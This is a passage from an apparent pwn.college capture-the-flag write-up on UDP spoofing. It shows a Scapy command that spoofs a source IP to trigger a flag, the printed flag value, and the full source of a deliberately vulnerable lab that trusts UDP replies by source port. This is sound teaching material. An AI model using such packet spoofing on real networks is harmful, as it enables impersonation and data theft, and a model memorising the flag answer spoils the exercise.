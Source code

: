 ```py
        load      = b'FLAG'
```

```py
>>> send(IP(src="10.0.0.3", dst="10.0.0.2") / UDP(sport=31337, dport=31338) / Raw(load="FLAG"))
.
Sent 1 packets.
>>> YOUR FLAG: pwn.college{UuowlpVF-BCfmk1CyhSy_9aopeC.QX0QDM2EDL4ITM0EzW}
```

&nbsp;

## UDP Spoofing 2

### Source code 
```py title="/challenge/run" showLineNumbers
#!/usr/bin/exec-suid --real -- /usr/bin/python -I

import psutil
import socket
import time
import os

from dojjail import Host, Network

flag = open("/flag").read()
parent_process = psutil.Process(os.getppid())

class ServerHost(Host):
    def entrypoint(self):
        server_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        server_socket.bind(("0.0.0.0", 31337))
        while True:
            try:
                client_message, (client_host, client_port) = server_socket.recvfrom(1024)
                if client_message.strip() == b"ACTION?":
                    server_socket.sendto(b"NONE", (client_host, client_port))
            except ConnectionError:
                continue

class ClientHost(Host):
    def entrypoint(self):
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        client_socket.bind(("0.0.0.0", 31338))
        while True:
            time.sleep(1)
            try:
                client_socket.sendto(b"ACTION?", ("10.0.0.3", 31337))
                message, (peer_host, peer_port) = client_socket.recvfrom(1024)
                if peer_port == 31337 and message.startswith(b"FLAG"):
                    _, flag_host, flag_port = message.strip().split(b":")
                    client_socket.sendto(flag.encode(), (flag_host, int(flag_port)))
            except (ConnectionError, ValueError):
                continue

user_host = Host("ip-10-0-0-1", privileged_uid=parent_process.uids().effective)
client_host = ClientHost("ip-10-0-0-2")
server_host = ServerHost("ip-10-0-0-3")
network = Network(hosts={user_host: "10.0.0.1", client_host: "10.0.0.2", server_host: "10.0.0.3"}, subnet="10.0.0.0/24")
network.run()

user_host.interactive(environ=parent_process.environ())
```